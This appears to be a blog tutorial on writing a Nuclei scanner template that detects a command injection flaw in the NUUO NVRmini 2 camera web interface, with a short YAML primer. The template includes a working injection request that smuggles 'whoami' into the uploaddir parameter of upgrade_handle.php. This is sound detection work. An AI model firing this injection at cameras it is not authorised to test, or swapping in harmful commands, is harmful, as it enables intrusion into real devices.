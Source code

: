 ```yaml
---
title: Development NUCLEI Template for Security Community!
published: true
---
```

## [](#header-3)What is Nuclei?

![](https://wallpaperaccess.com/full/199357.jpg)

Nuclei is used to send requests across targets based on a template leading to zero false positives and providing fast scanning on large number of hosts. Nuclei offers scanning for a variety of protocols including TCP, DNS, HTTP, File, etc. With powerful and flexible templating, all kinds of security checks can be modelled with Nuclei.

## [](#header-3)What is YAML? (redhat.com)

YAML is a data serialization language that is often used for writing configuration files. Depending on whom you ask, YAML stands for yet another markup language or YAML ain't markup language (a recursive acronym), which emphasizes that YAML is for data, not documents.


## [](#header-3)YAML Syntax

```js

# An employee record
name: Martin Devloper
job: Developer
skill: Elite
employed: True
foods:
   Apple
   Orange
   Strawberry
   Mango
languages:
  perl: Elite
  python: Elite
  pascal: Lame
education: |
  4 GCSEs
  3 A-Levels
  BSc in the Internet of Things

  ```


## [](#header-3)NUUO NVRMINI RCE 

The NUUO NVRMINI IP camera device provides a web application environment that allows users to manage the IP cameras. The related web application receives an input called uploaddir from the upgrade_handle.php file from the user. Input ';PAYLOAD;' When transmitted, it executes a system-level command. If the command is executed successfully, /upload_tmp_dir/ is displayed in the page source.

So, to detect this vulnerability, we will execute a command on the system and search for the word /upload_tmp_dir/ in HTTP Response.

Lets do request

```js
requests:
  - method: GET
    path:
      - "{{BaseURL}}/upgrade_handle.php?cmd=writeuploaddir&uploaddir=%27;whoami;%27"
```
Find matchs!
```js
matchers-condition: and
    matchers:
      - type: word
        words:
          - "/upload_tmp_dir/"
        part: body
```
All of them
```js
id: nuuo-nvrmini2-upgradehandlephp-rce

info:
  name: NUUO NVRmini 2 3.0.8 - Remote Code Execution
  author: 0x45d
  severity: critical
  tags: rce
  reference: |
    - https://www.exploit-db.com/exploits/45070
    - https://github.com/berkdsnr/NUUO-NVRMINI-RCE
    - https://packetstormsecurity.com/files/151573/NUUO-NVRmini-upgrade_handle.php-Remote-Command-Execution.html
requests:
  - method: GET
    path:
      - "{{BaseURL}}/upgrade_handle.php?cmd=writeuploaddir&uploaddir=%27;whoami;%27"

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "/upload_tmp_dir/"
        part: body

      - type: status
        status:
          - 200
```
## [](#header-3)References & Details

https://www.exploit-db.com/exploits/45070
https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/other/nuuo-nvrmini2-rce.yaml
https://github.com/projectdiscovery/nuclei/pull/399
https://www.rapid7.com/db/modules/exploit/multi/http/nuuo_nvrmini_upgrade_rce/


Follow me on twitter! @0x45d
